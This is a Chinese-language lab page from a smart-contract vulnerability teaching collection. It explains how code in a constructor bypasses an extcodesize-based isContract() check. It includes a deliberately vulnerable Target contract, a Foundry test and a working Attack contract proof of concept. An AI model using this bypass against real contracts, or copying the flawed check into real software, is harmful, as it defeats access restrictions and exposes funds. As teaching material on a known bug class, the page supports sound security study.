 # 绕过isContract()验证 
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**名称：** 绕过isContract()验证  
**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法依赖于extcodesize，它为构造函数中的合约返回0，因为代码仅在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 公共布尔值，表示此合约本身是否是合约
    bool public isContract;

    // 公共地址变量，用于存储此合约的地址。
    address public addr;

    // 只在创建Attack合约时，触发一次的构造函数。
    // 它将Target合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递本合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将此合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 但是由于isContract()检查中的漏洞，此调用成功。
        Target(_target).protected();
    }
}
```  
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F273d7caf-d1ec-435a-b60a-ef1dc2698ca1%2FUntitled.png?table=block&id=164fb814-62c9-4308-b378-aba274e06594&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)